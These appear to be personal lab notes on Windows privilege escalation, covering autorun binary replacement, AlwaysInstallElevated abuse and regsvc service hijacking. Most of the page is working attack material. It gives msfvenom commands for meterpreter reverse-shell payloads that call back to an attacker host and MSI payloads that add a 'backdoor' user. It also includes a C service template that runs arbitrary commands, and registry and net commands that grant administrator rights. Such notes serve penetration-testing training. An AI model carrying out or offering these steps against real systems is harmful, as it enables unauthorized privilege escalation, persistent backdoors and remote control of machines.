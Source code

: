### Autorun
Autorun is the program which checks which program can learn automatically. Download autorun and run it 
```powershell
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

Check for autorun programs and replace that with a msfvenom payload. In our case it is located at 
```powershell
c:\program files\autorun program\program.exe	
```

Check with Accesschk and look for **FILE_ALL_ACCESS** permision
```powershell
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

| Commands | Use |  
| ----------- | ----------- |  
| -w | File which have write access  |  
| -v | Verbose Output |
| -u | Ignore the errors |

After you get **FILE_ALL_ACCESS** proceed with the payload

#### Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
```

Once any user log in this program will run and will have a reverse shell as a privilege user

### AlwaysInstallElevated
It is a feature which allows users to install programs as a elevated user. To check if the registry values are set to 1:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```

Then create an MSI package and install it
```bash
# Generating Different Payloads
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o setup.msi
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o setup.msi
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi

# On windows VM run to install
msiexec /quiet /qn /i C:\setup.msi\
```

Technique also available in :

   * Metasploit : `exploit/windows/local/always_install_elevated`
   * PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`

### Registry Service (regsvc)
First look if you have full access to any registry service
```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
![[Pasted image 20210717181827.png]]

Now we have to compile a C file which will run system commands
```C
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("whoami > c:\\windows\\temp\\service.txt");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 
```

^db55e3

Now for payload we will add a user to the administrator group

```powershell
cmd.exe /k net localgroup administrators <username> /add
```

After editing compile the payload and transfer the file to the windows vm
```bash
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

Now open the command prompt and add the following command
```powershell
 reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
 ```
 
 | Commands | Use |  
| ----------- | ----------- |  
| /v | Value  |  
| /t | type |
| /d | data |
| /f | no prompt |

**REG_EXPAND_SZ** means the string value which will be replaced by the /d value

Now start the registry service
```powershell
sc start regsvc
```

Check the administrator group
```powershell
net localgroup administrators
```